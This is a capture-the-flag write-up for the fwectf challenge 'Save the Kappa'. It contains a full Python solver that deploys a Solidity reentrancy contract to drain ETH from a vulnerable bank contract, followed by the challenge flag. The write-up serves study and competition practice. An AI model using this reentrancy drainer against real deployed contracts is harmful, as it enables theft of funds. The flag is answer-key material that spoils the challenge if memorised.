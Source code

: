# Save the Kappa

I absolutely love kappa.  
Therefore, taking inspiration from “Kappa's River Drift”(This is a proverb meaning “Even Homer nods”.), I devised a challenge where helping a kappa results in receiving cucumbers—their favourite food—as a token of gratitude.  
This challenge was created for author's own study.  

Special thanks for karriho. He helped establish this as a legitimate challenge and contributed to creating `solver.py`.

## Result
Solved: 40  
Points: 344

1st: Satoki(BunkyoWesterns)  
2nd: Quriosity(sknb)  
3rd: CEO OF FFF(Lil L3ak)

## Challenge
Kappa always swim in chains. However, due to a mysterious force, one kappa was swept away by the river. Rescue the kappa that was swept away and receive a treasure as a reward!  
`nc chal1.fwectf.com 8020`

Difficulty: medium  
Attachment:
・ [VulnerableBank.sol](VulnerableBank.sol)  
・ [Setup.sol](Setup.sol)

## writeup

Knowing the following will enable you to solve it:
* reentrancy, etc.

Below is the executable code:
```python solver.py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
save_the_kappa / solver.py
- Reentrancy(リエントランシー)攻撃で VulnerableBank(withdrawAll脆弱) を空にする。
- EIP-1559 / legacy 手数料の両対応（web3.py v5/v6 どちらでも動く）。
"""

import os
import sys
from web3 import Web3
from eth_account import Account
from solcx import compile_standard, install_solc, set_solc_version

RPC_URL   = os.getenv("RPC_URL", "http://127.0.0.1:8545")
BANK_ADDR = os.getenv("BANK_ADDR")
PLAYER_PK = os.getenv("PLAYER_PRIV")
STAKE_ETH = float(os.getenv("STAKE_ETH", "0.2"))  # 攻撃の初期デポジット(ETH)

if not BANK_ADDR or not PLAYER_PK:
    print("[!] BANK_ADDR / PLAYER_PRIV を環境変数で指定してください。")
    sys.exit(1)
if not PLAYER_PK.startswith("0x"):
    PLAYER_PK = "0x" + PLAYER_PK

BANK_ADDR = Web3.to_checksum_address(BANK_ADDR)

ATTACKER_SOURCE = r"""
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBank {
    function deposit() external payable;
    function withdrawAll() external;
}

contract ReentrancyKappa {
    IBank public bank;
    address payable public owner;
    uint256 public stake;

    constructor(address _bank) {
        bank = IBank(_bank);
        owner = payable(msg.sender);
    }

    function pwn() external payable {
        require(msg.sender == owner, "only owner");
        require(msg.value > 0, "no stake");
        stake = msg.value;
        bank.deposit{value: msg.value}();
        bank.withdrawAll();
    }

    receive() external payable {
        if (address(bank).balance > 0) {
            bank.withdrawAll();
        }
    }

    function drain() external {
        require(msg.sender == owner, "only owner");
        (bool ok, ) = owner.call{value: address(this).balance}("");
        require(ok, "drain failed");
    }
}
"""

def dual_raw_tx(signed):
    """web3.py v5(rawTransaction) / v6(raw_transaction) 両対応"""
    return getattr(signed, "rawTransaction", None) or getattr(signed, "raw_transaction", None)

def fill_fees(w3: Web3, tx: dict) -> dict:
    """
    チェーンがEIP-1559対応なら maxFeePerGas / maxPriorityFeePerGas を入れる。
    非対応なら gasPrice を入れる。
    既にどちらかが入っている場合は触らない。
    """
    # すでにfee指定があるなら何もしない
    if any(k in tx for k in ("maxFeePerGas", "maxPriorityFeePerGas", "gasPrice")):
        return tx

    latest = w3.eth.get_block("latest")
    base_fee = latest.get("baseFeePerGas")
    if base_fee is not None:
        # EIP-1559
        try:
            max_priority = w3.eth.max_priority_fee  # web3 v6: property
        except Exception:
            # フォールバック: 2 gwei
            max_priority = w3.to_wei(2, "gwei")
        max_fee = base_fee * 2 + max_priority
        tx["maxPriorityFeePerGas"] = int(max_priority)
        tx["maxFeePerGas"] = int(max_fee)
    else:
        # legacy
        tx["gasPrice"] = int(w3.eth.gas_price)
    return tx

def send_raw(w3: Web3, acct, tx: dict):
    """
    ローカル署名送信（EIP-1559/legacy自動対応）
    - nonce/chainId/gas を適切に埋める
    """
    tx = dict(tx)  # copy
    tx.setdefault("from", acct.address)
    tx.setdefault("chainId", w3.eth.chain_id)
    tx.setdefault("nonce", w3.eth.get_transaction_count(acct.address))
    tx.setdefault("gas", 1_500_000)
    tx = fill_fees(w3, tx)

    signed = acct.sign_transaction(tx)
    raw = dual_raw_tx(signed)
    txh = w3.eth.send_raw_transaction(raw)
    rcpt = w3.eth.wait_for_transaction_receipt(txh)
    if rcpt.get("status", 0) != 1:
        raise RuntimeError(f"tx failed: {rcpt}")
    return rcpt

def main():
    w3 = Web3(Web3.HTTPProvider(RPC_URL))
    assert w3.is_connected(), f"not connected to {RPC_URL}"
    acct = Account.from_key(PLAYER_PK)
    print(f"[+] player: {acct.address}")

    # コンパイル
    install_solc("0.8.26")
    set_solc_version("0.8.26")
    build = compile_standard({
        "language": "Solidity",
        "sources": {"Attacker.sol": {"content": ATTACKER_SOURCE}},
        "settings": {
            "optimizer": {"enabled": True, "runs": 200},
            "outputSelection": {"*": {"*": ["abi", "evm.bytecode.object"]}},
        },
    })
    abi = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["abi"]
    bytecode = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["evm"]["bytecode"]["object"]

    # 攻撃コントラクト deploy
    Attacker = w3.eth.contract(abi=abi, bytecode=bytecode)
    tx = Attacker.constructor(BANK_ADDR).build_transaction({"from": acct.address})
    rc = send_raw(w3, acct, tx)
    attacker_addr = Web3.to_checksum_address(rc["contractAddress"])
    print(f"[+] attacker: {attacker_addr}")
    attacker = w3.eth.contract(address=attacker_addr, abi=abi)

    # 攻撃前の残高
    before = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank before: {w3.from_wei(before, 'ether')} ETH")

    # 攻撃開始（pwn + deposit）
    stake_wei = w3.to_wei(STAKE_ETH, "ether")
    tx = attacker.functions.pwn().build_transaction({"from": acct.address, "value": stake_wei})
    rc = send_raw(w3, acct, tx)
    print("[+] reentrancy done.")

    # 回収
    tx = attacker.functions.drain().build_transaction({"from": acct.address})
    send_raw(w3, acct, tx)

    after = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank after : {w3.from_wei(after, 'ether')} ETH")
    if after == 0:
        print("[+] success: drained. Now press '3' in nc to get the flag.")
    else:
        print("[!] still not zero. Increase STAKE_ETH or gas if needed, and confirm Bank is withdrawAll-type.")

if __name__ == "__main__":
    main()
```

## flag

`fwectf{7h15_15_7h3_cucumber!}`
